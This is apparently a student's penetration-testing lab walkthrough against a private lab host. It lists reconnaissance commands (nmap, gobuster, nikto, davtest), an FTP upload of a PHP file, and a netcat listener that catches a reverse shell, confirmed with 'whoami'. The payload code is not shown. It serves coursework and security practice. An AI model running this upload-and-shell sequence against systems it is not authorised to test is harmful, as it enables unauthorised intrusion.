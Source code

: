 ﻿# Aldruhn - 192.168.2.12
## Andrea Zonnekus 18758119

sudo nmap -sV -sV -O 192.168.2.12 -oN hosts

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.001.png)

sudo gobuster dir -u 192.168.2.12 -w /usr/share/dirb/wordlists/big.txt -o aldruhn\_http -x php,html,txt,xml

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.002.png)

http://192.168.2.12/security/

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.003.png)



sudo nikto --url 192.168.2.12 -o nikto --Format text

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.004.png)

davtest -url 192.168.2.12/webdav/

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.005.png)

ftp 192.168.2.12 21

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.006.png)

ls

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.007.png)

binary

windows\_best\_64x.php remote: windows\_best\_64x.php

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.008.png)



<http://192.168.2.12/windows_best_64x.php>

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.009.png)

nc -lvnp 4444

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.010.png)

whoami

![](aldruhn_steps/Aspose.Words.e60a3193-4cdb-4bd0-ba68-6b62b02a7cdc.011.png)




